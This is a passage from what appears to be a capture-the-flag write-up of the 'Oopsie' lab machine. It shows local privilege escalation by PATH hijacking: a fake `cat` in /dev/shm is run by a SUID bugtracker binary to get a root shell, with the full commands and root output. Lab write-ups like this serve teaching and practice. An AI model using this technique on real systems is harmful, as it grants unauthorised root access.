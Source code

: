 Nothing looks of interest until the `cat /root/reports` line. I have encountered something like this before - where you can manipulate the command / binary to be loaded from a different path. If the `cat` command has an absolute path (e.g., `/usr/bin/cat`) this would not be possible.

To do this, we just need to create a new `cat` binary and update our `PATH` environment variable. I did this in the `/dev/shm` directory.

```none
cd /dev/shm/
export PATH=/dev/shm/:$PATH
echo "id" > cat
chmod +x cat
```

Success! When we ran bugtracker - it, in turn, ran `cat` and printed out the `id` command - showing it was run as root.

```none
robert@oopsie:/dev/shm$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Now we can add `bash` to the `cat` file to spawn a new bash shell as the root user.

```none
robert@oopsie:/dev/shm$ echo "/bin/bash" > cat
robert@oopsie:/dev/shm$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

root@oopsie:/dev/shm# whoami
root
root@oopsie:/dev/shm# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
root@oopsie:/dev/shm# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned
